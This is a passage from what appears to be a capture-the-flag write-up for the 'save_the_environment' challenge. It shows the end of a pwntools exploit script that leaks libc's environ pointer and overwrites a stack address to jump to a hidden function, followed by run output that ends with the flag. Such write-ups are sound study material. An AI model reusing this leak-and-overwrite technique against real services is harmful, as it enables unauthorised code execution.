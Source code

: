 ```python
    p.sendlineafter('> ','2')
    p.sendlineafter('> ','2')
    p.sendlineafter('> ','n')

p.sendlineafter('> ',hex(libc.sym.environ))
p.recv(4) # ANSI color, grow up
_ = p.recv(6)
environ = u64(_ + b'\0\0')
log.info('environ: ' + hex(environ))

# plant
p.sendlineafter('> ','1')
p.sendlineafter('> ',hex(environ - 0x120))
p.sendlineafter('> ',hex(binary.sym.hidden_resources))
p.recvline()
p.recvline()
print(p.recvuntil('}').decode())
```

This just follows the analysis and should be pretty easy to follow.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/save_the_environment/environment_noalarm'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 138.68.141.182 on port 31076: Done
[*] '/pwd/datajerk/cyberapocalypsectf2021/save_the_environment/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf: 0x7f1dab14bf70
[*] libc.address: 0x7f1dab0e7000
[*] environ: 0x7fff3f9e1bb8
CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}
```
